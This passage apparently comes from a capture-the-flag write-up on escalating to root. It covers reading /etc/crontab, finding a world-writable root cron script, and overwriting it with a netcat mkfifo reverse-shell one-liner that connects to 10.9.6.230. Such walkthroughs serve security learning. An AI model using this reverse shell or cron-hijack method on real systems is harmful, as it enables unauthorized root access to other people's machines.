 ```bash
cat /etc/crontab
```

![image](https://user-images.githubusercontent.com/67465230/187160408-7f710379-c5cc-4ca9-bfe5-13e40ae473fc.png)

there's a file named /var/backups/script.sh file and it runs as root user. 

Viewing the content of this script, I thought that I can put the one-liner reverse shell,

![image](https://user-images.githubusercontent.com/67465230/187160463-aa7f81a5-8206-4e1d-8cf3-ddc77e32440d.png)

What I was thinking about putting one-liner reverse shell was true because upon viewing the rwx permissions of this script, owner, groups and others can read-write-execute this script,

```bash
ls -la /var/backups/script.sh
```

![image](https://user-images.githubusercontent.com/67465230/187160558-5285a041-cca0-4817-b7ad-a652c5dc565b.png)

So I placed the netcat one-liner reverse shell,

```bash
cat > /var/backups/script.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.6.230 5555 >/tmp/f
```

![image](https://user-images.githubusercontent.com/67465230/187160605-eb3943a3-ded3-4a78-b55d-0c5e724c6f65.png)
